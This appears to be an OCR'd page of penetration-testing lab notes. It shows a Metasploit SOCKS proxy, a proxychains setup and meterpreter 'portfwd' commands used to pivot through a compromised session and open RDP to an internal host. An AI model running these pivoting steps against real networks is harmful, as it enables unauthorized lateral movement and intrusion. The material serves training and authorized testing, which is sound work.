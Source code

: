 ```bash

Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server

kali@kali:~$ tail -5 /etc/proxychains4.confg
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 1080

kali@kali:~$ sudo proxychains xfreerdp /v:172.16.5.200 /u:luiza
```

We can also port forward inside a meterpreter session via the _portfwd_ command:

```bash
msf6 auxiliary(server/socks_proxy) > sessions -i 12
[*] Starting interaction with 5...

meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]

OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.

meterpreter > portfwd add -l 3389 -p 3389 -r 172.16.5.200
[*] Local TCP relay created: :3389 <-> 172.16.5.200:3389

kali@kali:~$ sudo xfreerdp /v:127.0.0.1 /u:luiza             
[08:09:25:307] [1314360:1314361] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[08:09:25:307] [1314360:1314361] [WARN][com.freerdp.crypto] - CN = itwk02
...
```
